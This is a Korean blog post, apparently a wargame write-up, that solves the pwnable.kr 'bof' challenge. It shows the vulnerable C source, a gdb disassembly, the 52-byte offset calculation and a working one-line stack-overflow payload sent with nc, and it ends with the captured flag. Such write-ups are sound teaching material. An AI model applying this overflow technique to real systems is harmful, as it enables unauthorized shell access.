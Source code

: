 ```yaml
---
title: '[Pwnable.kr] bof'
date: '2017-08-30'
---
```


![]({{ site.baseurl }}/assets/posts/pwnkr/bof.png)

이름만 봐도 알 수 있는 buffer overflow 문제!
코드는 다음과 같다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}

int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

gets함수 부분에 주석으로 smash me!가 있는걸 보니 gets 함수의 취약점을 이용한 bof인 듯 하다.
main에서 0xdeadbeef 값을 func에 넘겨주고 함수가 실행되는데 `key = 0xdeadbeef` 이고
user로 부터 변수 overflowme를 받은 후 `key가 0xcafebabe 과 일치할 때` 쉘을 실행시킨다.
그럼 어떻게 해야될까 gdb로 한 번 봐 보자

```
mitny@argos-edu:~/pwnable$ gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0000068a <+0>:	push   ebp
   0x0000068b <+1>:	mov    ebp,esp
   0x0000068d <+3>:	and    esp,0xfffffff0
   0x00000690 <+6>:	sub    esp,0x10
   0x00000693 <+9>:	mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:	call   0x62c < func>
   0x0000069f <+21>:	mov    eax,0x0
   0x000006a4 <+26>:	leave  
   0x000006a5 <+27>:	ret    
End of assembler dump.
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 < func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 < func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b < func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 < func+57>
   0x00000669 <+61>:	jmp    0x677 < func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 < func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 < func+92>
   0x00000683 <+87>:	call   0x684 < func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
```
`0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe `
이 부분에서 ebp+0x8 에 있는 값과 0xcafebabe 를 비교해서 
일치하지 않으면 func+63 으로 jump, 일치하면 func+75로 jump를 하게 되는데

[ebp-0x2c] 와 [ebp+0x8] 사이의 거리는 52!
즉, 52바이트 만큼 다른 문자를 채워넣고 0xcafebabe 를 넣어 주면 된다.

`(python -c 'print "A"*52+"\xbe\xba\xfe\xca"'; cat) |nc pwnable.kr 9000` 를 해주면
![]({{ site.baseurl }}/assets/posts/pwnkr/bof_flag.png)

flag가 뜬다!

`daddy, I just pwned a buFFer :)`
